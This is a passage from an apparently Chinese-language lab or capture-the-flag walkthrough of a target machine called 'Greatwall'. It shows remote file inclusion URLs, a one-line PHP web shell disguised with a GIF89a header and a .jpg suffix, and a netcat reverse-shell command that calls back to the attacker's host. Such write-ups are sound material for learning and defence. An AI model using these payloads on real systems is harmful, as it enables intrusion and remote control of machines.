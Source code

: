 都不行，突然让我想起了`boxing`那个靶机，尝试一下basic认证：

```bash
http://192.168.10.129/?page=http://127.0.0.1:kali@192.168.10.128:8888/revshell.php
```

但是也不行欸。。。。然后就是慢慢尝试，直到我把端口改为了`80`.。。。。。。。。

```bash
http://192.168.10.129/?page=http://192.168.10.128/shell.php
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202506190103372.png" alt="image-20250618102657838" style="zoom:50%;" />

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202506190103373.png" alt="image-20250618102639349" style="zoom:50%;" />

尝试本地包含进行反弹：

```bash
http://192.168.10.129/?page=http://127.0.0.1/shell.php
```

但是发现不行欸。。。。研究下报错：

```bash
WARNING: Failed to daemonise. This is quite common and not fatal. Connection timed out (110)
```

尝试关闭防火墙。。。。。但是仍然不行。。。。。尝试修改文件后缀上传，发现也不行。。。。

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202506190103374.png" alt="image-20250618111720468" style="zoom:33%;" />

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202506190103375.png" alt="image-20250618111732718" style="zoom:50%;" />

想起之前不知道是限制了开放端口还是长度失败了，所以这里改为一句话shell试试：

```bash
┌──(kali㉿kali)-[~/temp/Greatwall]
└─$ cat webshell.php 
<?php system($_GET["cmd"]) ;?>
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202506190103376.png" alt="image-20250618134757669" style="zoom:50%;" />

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202506190103377.png" alt="image-20250618134807084" style="zoom:50%;" />

发现没有报错了，但是还是读取不到，改为`GIF89a`和`.jpg`后缀有了新的回显：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202506190103378.png" alt="image-20250618135855405" style="zoom:50%;" />

尝试看一下是否上传成功了：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202506190103379.png" alt="image-20250618135938520" style="zoom:33%;" />

成功执行命令，尝试进行命令执行反弹shell：

```bash
┌──(kali㉿kali)-[~/temp/Greatwall]
└─$ chmod +x revshell.sh 
                                                                             
┌──(kali㉿kali)-[~/temp/Greatwall]
└─$ head revshell.sh 
nc -e /bin/bash 192.168.10.128 1234
                                                                             
┌──(kali㉿kali)-[~/temp/Greatwall]
└─$ ls -la revshell.
ls: cannot access 'revshell.': No such file or directory
                                                                             
┌──(kali㉿kali)-[~/temp/Greatwall]
└─$ ls -la revshell.sh 
-rwxrwxr-x 1 kali kali 36 Jun 18 02:11 revshell.sh
```